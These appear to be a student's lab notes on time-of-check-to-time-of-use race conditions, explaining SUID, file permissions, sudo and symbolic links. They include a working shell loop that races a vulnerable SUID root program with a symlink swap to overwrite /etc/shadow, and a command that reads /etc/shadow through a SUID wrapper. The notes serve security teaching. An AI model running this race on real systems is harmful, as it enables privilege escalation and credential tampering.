 ## Learning Objective

- [ ] Understand what a TOCTOU bug is and why it is prone to attacks  
- [ ] Detect race conditions caused by TOCTOU bugs  
- [ ] Provide a fix to a TOCTOU vulnerability  
- [ ] Examine file permissions and modify them using `chmod`, `chown`, `ls -l`  
- [ ] Understand the concept of privileged programs: user level vs root level  
- [ ] Compile programs and make documents with different privilege levels  
- [ ] Understand how `sudo` works and how it elevates privileges  
- [ ] Understand the difference between symbolic and hard links (`ln` vs `ln -s`)  

---
# Toctou bug

Time-of-Check to Time-of-Use is a **race condition vulnerability**. 
	When a program checks a condition (like file permissions) and then **acts on it later**, assuming the condition hasn’t changed. In between, an attacker can **swap the file** or resource, tricking the system into doing something unsafe

- This allows **regular users to escalate privileges**
- The attacker changes the resource (e.g., replacing a user file with a symbolic link to `/etc/shadow`) **between check and use**, gaining unauthorized access or control.

---
## File Permission
The reason you faced the **permission denied** error is because your username doesn’t have the correct **permission** to edit the `Root/` directory.
![[Pasted image 20250605162217.png|500]]

```bash
-rwxr-xr-x 1 root root 16840 Jun  5 16:27 root_prog_nosuid
```
 `-` : Regular file
- `rwx` : Owner (`root`) has read, write, execute
- `r-x` : Group has read and execute
- `r-x` : Others have read and execute
- No `s` → **SUID is not set**
- **Runs as the user who calls it** (no privilege escalation)

```bash
-rwsr-xr-x 1 root root 16408 ...
```
- `s` replaces the owner execute bit → **SUID is set** [[#SUID bit]]
- Meaning: When executed, this program runs with the **effective UID of the file owner**, which is **root**
- So even if a **normal user runs `rootdo`**, it runs with **root privileges**
- This is used intentionally to elevate permission for controlled tasks

```bash
-rwsr-xr-x 1 root root 16840 ...
```
- Same as `rootdo`, **SUID is set**
- Also owned by `root`
- This is the **vulnerable program** you attack in the TOCTOU lab:
    - Because of the SUID and the timing gap (access → sleep → fopen),
    - A regular user can exploit it to **modify `/etc/shadow`**

---
## SUID bit
SUID stand for Set Owner User ID. A file with **SUID** set always **executes** as the user who **owns** the file, regardless of the user passing the command.

The **SUID** bit allows **normal** user to gain **elevated privilege** (this does **NOT** mean Kernel Mode, just privilege levels among regular users) when executing this program.
If a normal user executes this program, this program runs in root **privileges** (basically, the creator of the program)

---
## Attacking process 
### Reading protected file using regular user account.
``` bash
cat /etc/shadow -> cat: /etc/shadow: Permission denied
```
Met with **permission denied** because this file can only be read by `root` user, and other users in the **same group** 

```bash
test-user-1@DESKTOP-9K3T8HM: ../lab_toctou$ ./Root/rootdo cat /etc/shadow
```
The **reason** you can now successfully read the file `/etc/shadow` is because `rootdo` **has the SUID bit**. Any other program that is **executed** by `rootdo` will run with `root` (`rootdo` creator) privileges and **not** the regular user.

---
## sudo
Allows a permitted user to execute a command as the superuser or another user, as specified in the sudoers file (`/etc/sudoers`). 
This provides a mechanism for granting administrator privileges, ordinarily reserved for the root user, to normal users in a controlled manner.

---
# The Vulnerable Program

---
# The TOCTOU Bug

A class of software bug caused by a race condition involving:

- The **checking** of the state of a part of a system (such as this check in `vulnerable_root_prog` using `access`),
- And the **actual use** of the results of that check

We **exaggerate** the `DELAY` between:

1. The time of **CHECK** of the file using `access` and
2. The time of **USE** (actual usage of the file) using `fopen` by setting `sleep(DELAY)` in betweewhatn the two instructions, where `DELAY` is specified as 1 to simulate 1 second delay.

## Symbolic Link
A **symbolic** link is a special kind of file that points to another file. It contains a text string that is **automatically interpreted** and followed by the OS as a path to another file or directory.



--- 
# The Attack
```sh
OLDFILE=`ls -l /etc/shadow`
NEWFILE=`ls -l /etc/shadow`

while [ "$OLDFILE" = "$NEWFILE" ]
do
    rm -f userfile.txt
    cp userfile_original.txt userfile.txt

    ../Root/vulnerable_root_prog userfile.txt test-user-0 & 
    ln -sf /etc/shadow userfile.txt & 
    NEWFILE=`ls -l /etc/shadow`
done
```

    ../Root/vulnerable_root_prog userfile.txt test-user-0 & 
    ln -sf /etc/shadow userfile.txt & 
- These two commands run **at the same time** (`&` runs them in background):

	**a.** `vulnerable_root_prog`:
	- Checks if the user has write access to `userfile.txt` (it does — at first).
	- Waits for 1 second (using `sleep(1)`)
	- Then opens it and modifies it — **but by that time, it may have changed!**

	**b.** `ln -sf /etc/shadow userfile.txt`:
	- Replaces `userfile.txt` with a **symbolic link** to `/etc/shadow`.


